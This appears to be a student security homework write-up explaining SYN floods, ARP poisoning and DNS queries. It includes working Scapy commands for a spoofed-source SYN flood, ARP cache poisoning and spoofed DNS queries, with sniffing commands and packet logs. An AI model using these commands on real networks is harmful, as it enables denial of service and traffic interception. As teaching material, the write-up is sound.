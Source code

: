 # MIE-SIB. Homework #1. 

### 1, TCP/SYN Packet (TCP/SYN Flood)

###### Theoretical overview

A **SYN flood** is a form of denial-of-service attack in which an attacker sends a succession of SYN requests to a target's system in an attempt to consume enough server resources to make the system unresponsive to legitimate traffic.

Normally when a client attempts to start a TCP connection to a server, the client and server exchange a series of messages which normally runs like this:

1. The client requests a connection by sending a SYN (synchronize) message to the server.
2. The server acknowledges this request by sending SYN-ACK back to the client.
3. The client responds with an ACK, and the connection is established.

This is called the **TCP three-way handshake**, and is the foundation for every connection established using the TCP protocol.

![Normal work](http://upload.wikimedia.org/wikipedia/commons/thumb/9/9a/Tcp_normal.svg/220px-Tcp_normal.svg.png)

A **SYN flood attack** works by not responding to the server with the expected ACK code. The malicious client can either simply not send the expected ACK, or by spoofing the source IP address in the SYN, causing the server to send the SYN-ACK to a falsified IP address - which will not send an ACK because it "knows" that it never sent a SYN.

The server will wait for the acknowledgement for some time, as simple network congestion could also be the cause of the missing ACK, but in an attack increasingly large numbers of half-open connections will bind resources on the server until no new connections can be made, resulting in a denial of service to legitimate traffic. Some systems may also malfunction badly or even crash if other operating system functions are starved of resources in this way.

![SYN Flood](http://upload.wikimedia.org/wikipedia/commons/thumb/9/94/Tcp_synflood.png/220px-Tcp_synflood.png)


###### Using Scapy for performing attacks.

	send(IP(src=RandIP('10.0.0.0/8'), dst='172.16.16.16')/TCP(sport=RandShort(), dport=80), loop=1) 

Scapy generates `TCP SYN` packets at a constant rate to the victim with `address 172.16.16.16` on `port 80`, sourced from random spoofed addresses within the allowed management network (`10.0.0.0/8`). Appending the `loop=1` parameter to scapy's send() command instructs it to regenerate and retransmit the packet at a constant rate indefinitely. 

On the victim router, we can see that the TCP connection queue is immediately exhausted: 

	02:15:49.007776 IP 10.183.157.9.35319 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.008966 IP 10.143.122.81.61439 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.010057 IP 10.23.145.69.45972 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.011082 IP 10.36.20.15.23697 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.012211 IP 10.237.52.92.34983 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.013442 IP 10.37.190.76.20831 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.014706 IP 10.36.141.23.4999 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.015997 IP 10.200.164.146.33124 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.017994 IP 10.131.175.162.38615 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.019118 IP 10.46.64.11.48947 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.020234 IP 10.133.81.101.52032 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.021436 IP 10.253.244.76.18717 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.022464 IP 10.66.75.205.27219 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.023491 IP 10.202.188.247.11763 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.024614 IP 10.82.193.102.54673 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.025861 IP 10.150.235.34.29320 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.027553 IP 10.231.145.11.58377 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	02:15:49.029261 IP 10.145.105.136.60844 > 172.16.16.16.www: Flags [S], seq 0, win 8192, length 0
	
###### Using Scapy for monitoring attacks.

We can easily capture `tcp` packets with `S flag`:

	a = sniff(filter="tcp[tcpflags] & (tcp-syn) != 0")
	a.nsummary()

Displayed information:
	
	0000 Ether / IP / TCP 10.86.233.36:25701 > 172.16.16.16:www S
	0001 Ether / IP / TCP 10.155.28.58:56047 > 172.16.16.16:www S
	0002 Ether / IP / TCP 10.79.88.202:60566 > 172.16.16.16:www S
	0003 Ether / IP / TCP 10.95.55.197:64929 > 172.16.16.16:www S
	0004 Ether / IP / TCP 10.177.194.62:1856 > 172.16.16.16:www S
	0005 Ether / IP / TCP 10.236.101.170:21069 > 172.16.16.16:www S
	0006 Ether / IP / TCP 10.236.110.58:16205 > 172.16.16.16:www S
	0007 Ether / IP / TCP 10.40.112.40:63280 > 172.16.16.16:www S
	0008 Ether / IP / TCP 10.216.122.157:16823 > 172.16.16.16:www S
	0009 Ether / IP / TCP 10.66.169.3:60749 > 172.16.16.16:www S
	0010 Ether / IP / TCP 10.61.157.51:48726 > 172.16.16.16:www S
	0011 Ether / IP / TCP 10.73.11.92:55115 > 172.16.16.16:www S
	0012 Ether / IP / TCP 10.115.49.253:23161 > 172.16.16.16:www S

### 2, ARP Poisoning.

###### Theoretical overview

**ARP (address resolution protocol)** operates by broadcasting a message across a network, to determine the Layer 2 address (MAC address) of a host with a predefined Layer 3 address (IP address). The host at the destination IP address sends a reply packet containing its MAC address. Once the initial ARP transaction is complete, the originating device then caches the ARP response, which is used within the Layer 2 header of packets that are sent to a specified IP address.

![ARP poisoning](http://hakipedia.com/images/MitM.png)

An **ARP Spoofing attack** is the egression of unsolicited ARP messages. These ARP messages contain the IP address of a network resource, such as the default gateway, or a DNS server, and replaces the MAC address for the corresponding network resource with its own MAC address. Network devices, by design, overwrite any existing ARP information in conjunction with the IP address, with the new, counterfeit ARP information. The attacker then takes the role of man in the middle; any traffic destined for the legitimate resource is sent through the attacking system. As this attack occurs on the lower levels of the OSI model, the end-user is oblivious to the attack occurrence.

**ARP Poisoning** is also capable of executing Denial of Service (DoS) attacks. The attacking system, instead of posing as a gateway and performing a man in the middle attack, can instead simply drop the packets, causing the clients to be denied service to the attacked network resource. The spoofing of ARP messages is the tributary principal of ARP Poisoning.

###### Using Scapy for performing attacks.

Exists high-level function that is already coded `arpcachepoison`. That performs poison target's cache with (your MAC,victim's IP) couple.

	arpcachepoison('172.16.16.16', '10.0.0.1')

Will cause `172.16.16.16` to send the current host all packets originally intended for `10.0.0.1`.

Also it can be done in different way by using standart functions:

	a = ARP()

Now, target and victims ip addresses are set.

	a.psrc=("10.0.0.1")
	a.pdst=("172.16.16.16")

Send packet.

	send(a)

###### Using Scapy for monitoring attacks.

We should capture `arp` packets:

	a =sniff(filter="arp")
	a.summary()
	
Result on target side looks like:

	Ether / ARP who has 172.16.16.16 says 10.0.0.1
	

### 3, DNS query (DNS Multiplication Attack)

###### Theoretical overview

A **DNS query** is the process of a networking device making an inquiry to get an IP address for a DNS name. 

The client computer will send a DNS query to one of their DNS servers. The DNS server looks in it's DNS database to tell whether it can answer the query authoritatively. If the DNS server can answer authoritatively, the DNS server answers the query and the DNS query process is complete... *further stages are not interested for us within the bounds of this task*.

![ARP poisoning](http://www.ingate.com/files/422/fwmanual-en/png-img/fw-acdns1-en.png)

###### Using Scapy for performing attacks.

	sr1(IP(src=RandIP('10.0.0.0/8'), dst='172.16.16.16')/UDP(sport=RandShort(),dport=53)/
	... DNS(rd=1,qd=DNSQR(qname="fit.cvut.cz", qtype="AAAA")))
	
DNS query to the DNS server at `172.16.16.16` from random ip addresses `10.0.0.0/8`. The request is about presence IPv6 records type `AAAA` for the domain `fit.cvut.cz`.

`rd=1` is telling that recursion is desired, and `sr1` is the send/receive function that only returns the first answered packet.

###### Using Scapy for monitoring attacks.

We should capture `udp` packets at `port 53`:

	a=sniff(filter="udp and port 53")
	a.summary();

and result is:

	Ether / IP / UDP / DNS Qry "fit.cvut.cz." 
	

